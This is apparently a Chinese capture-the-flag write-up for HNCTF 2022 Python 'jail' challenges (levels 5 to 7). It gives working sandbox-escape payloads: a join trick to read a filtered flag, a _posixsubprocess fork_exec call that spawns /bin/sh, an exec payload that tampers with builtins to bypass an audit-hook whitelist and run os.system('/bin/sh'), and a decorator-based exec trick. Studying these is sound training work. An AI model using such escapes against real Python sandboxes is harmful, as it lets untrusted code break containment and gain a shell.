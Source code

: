## [HNCTF 2022 WEEK2]calc_jail_beginner_level5(JAIL)

> `__repr__`：“自我描述”功能。直接打印类的实例化对象时调用，输出自我描述信息。
>
> `__str__`：功能同上。但`__repr__`一般设置为开发者看，`__str__`给用户看。

需要注意的是：当不用`print`时，直接在交互命令行中输入该对象来输出时，走`__repr__`而不走`__str__`。

由程序可知输入的命令中`flag`被替换为`my_flag`，并禁止了`__repr__`和`__str__`。

根据提示可知payload1：

```python
dir()
```

随后如果直接输入：

```python
my_flag.flag_level5
```

则程序会走`__repr__`。为了绕过，使用`.join()`。payload2：

```python
str().join(my_flag.flag_level5)
```

## （疑问）[HNCTF 2022 WEEK3]calc_jail_beginner_level6(JAIL)

WHITELIST:

```
builtins.input builtins.input/result exec compile
```

> `__loader__`：加载器在导入的模块上设置的属性，访问时返回加载器对象本身。

### 法一

不知道这为啥能命中白名单...

payload1:

```python
import os
__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/sh"], [b"/bin/sh"],True,(),None,None,-1,-1,-1,-1,-1,-1,*(os.pipe()),False,False,None,None,None,-1,None)
```

### 法二

payload2:

```python
exec("globals()['__builtins__']['set']=lambda x:['builtins.input','builtins.input/result','exec','compile','os.system']\nimport os\nos.system('/bin/sh')")
```

## （疑问）[HNCTF 2022 WEEK3]calc_jail_beginner_level7(JAIL)

这是为啥？

payload1:

```python
@exec
@input
class X:
    pass
--HNCTF
```

